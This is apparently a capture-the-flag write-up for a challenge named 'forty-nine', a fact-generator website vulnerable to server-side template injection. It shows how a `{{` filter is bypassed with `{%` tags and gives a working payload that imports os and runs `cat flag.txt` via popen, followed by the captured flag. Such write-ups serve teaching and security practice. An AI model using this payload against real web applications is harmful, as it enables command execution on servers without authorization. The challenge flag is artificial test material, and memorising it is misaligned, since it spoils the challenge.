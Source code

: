 # forty-nine
> We have a random fact generator that might have some problems sanitizing the input. It may not be as simple as 7*7.

## About the Challenge
We were given a website, and there’s only 1 form input in the website


[Image extracted text: Welcome to ChatSRFG
Simple Random Facts Generator; not really a chatbot:
Talk to them:
ss]
Submit
Spread across their entire lifetime, the average person spends about one full year sitting on the toilet]


## How to Solve?
And then I tried to input `${{7*7}}` and the output was `Sorry, I do not understand Attack detected!.`. And after analyzing a little bit, sadly we can’t input `{{`

Well, even though we can’t input `{{`, we still can bypass it using `{%`.


[Image extracted text: ME
{{
{%]


And to obtain the flag, we need to execute an OS command by importing the `os` module and then calling the `popen` function and then executing the `cat flag.txt` command.

```
{% print(x.__init__.__globals__.__builtins__.__import__("os")["popen"]("cat flag.txt").read()) %}
```


[Image extracted text: Welcome to ChatSRFG
Simple Random Facts Generator; not really a chatbot:
Talk to them:
{% print(x:_
init_
globals_
builtins
Submit
do not understand CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}
Sorry;]


```
CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}
```